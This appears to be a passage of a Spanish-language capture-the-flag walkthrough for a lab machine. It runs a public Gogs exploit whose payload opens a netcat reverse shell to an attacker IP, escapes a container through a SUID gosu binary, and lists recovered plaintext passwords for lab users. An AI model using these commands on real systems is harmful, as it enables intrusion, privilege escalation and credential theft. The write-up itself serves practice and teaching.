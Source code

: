 Como antes hablaban de gogs, buscamos en google "gogs exploit github" y clonamos el repo para enviarnos una reverse shell.

```bash
git clone https://github.com/TheZ3ro/gogsownz
cd gogsownz
python3 gogsownz.py -v http:/127.0.0.1:3000/ -C "AogiriTest:test@aogiri123" -n "i_like_gogits" --rce "nc 10.10.14.29 443 -e /bin/bash" --cleanup
```


# Container Escape (172.18.0.2)
## OS
Como no podemos hacer un tratamiento de la tty, nos conectamos mediante ssh con el uso de claves id_rsa

```bash
id
sudo -l
uname -a
cat /etc/os-release
cd / 
find \-perm -4000 2>/dev/null
```

> Alpine 3.8
> gosu es SUID y el propietario es root

```bash
gosu root whoami #root
gosu root bash
cd /root
ls
cat session.sh
```

> credenciales -> 'user_name=kaneki&password=12345ILoveTouka!!!'
> 7z file -> Nos lo traemos a nuestro equipo

```bash
7z x aogiri-app.7z
cd aogiri-chatapp
git log
git reflog
git show <identifier>
```

> Es un repositorio git

> USER: kaneki
> PASS: jT7Hr$.\[nF.)c)4C

> USER: root
> PASS: g_xEN$ZuWD7hJf2G
 